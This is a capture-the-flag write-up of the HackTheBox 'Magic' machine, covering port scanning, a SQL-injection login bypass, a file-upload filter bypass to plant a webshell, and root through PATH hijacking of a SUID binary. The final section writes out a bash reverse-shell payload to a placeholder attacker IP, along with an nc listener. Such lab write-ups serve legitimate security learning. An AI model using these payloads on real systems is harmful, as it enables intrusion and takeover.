# HackTheBox - Magic

I started with a simple portscan.

`nmap -sS -sV -T4 10.10.10.185`



We see an open web server and an open SSH server.

Let's take a closer look at the web server.
The box was pretty straightforward, I didn't have to enumerate much.

At the bottom left we see *Please Login, to upload images.*



The login portal was vulnerable to __SQL Injection__.
I quickly found a simple bypass and was able to log in.

`admin'#` and we are in.



We have the possibility to upload pictures.
And our uploads end up under the following path: `/images/uploads/`

The application checks if we upload only images.
Otherwise the following JS-alert greets us.



Using Burp I tried to find a working bypass to upload PHP code.
After a few tries I found the following working bypass.

`<FILENAME>.php%0a.png`



It is important that we prefix `PNG` with .
Also we have to url-encode `%0a` again when calling our PHP code.

And lo and behold, it works!



I repeated the process and uploaded a simple webshell from which I then established a reverse shell.



## PrivEsc 1: www-data -> theseus

I was `www-data` and enumerated the system.
For the user `theseus` I first tried a password which I discovered in a php configuration file but it did not work.

So back to our SQL vulnerability!

I used `sqlmap` to exploit the vulnerability and to see if we could find working any passwords.



__Password Reusing__ now brought me to the Linux user `theseus`.



## PrivEsc 2: theseus -> root

After searching for SUID binaries I found an interesting binary.



`/bin/sysinfo`, a custom binary that shows us various system information when run.

`ltrace /bin/sysinfo`



The binary uses `fdisk` among other things.

With the following steps I use the PATH variable to get root.

- `echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<ATTACKER_IP>/1234 0>&1' > /tmp/fdisk`
- `chmod +x /tmp/fdisk`
- `nc -nlvp 1234`
- `export PATH="/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"`
- `/bin/sysinfo`

I got a shell as root on my new listener and got the root flag.


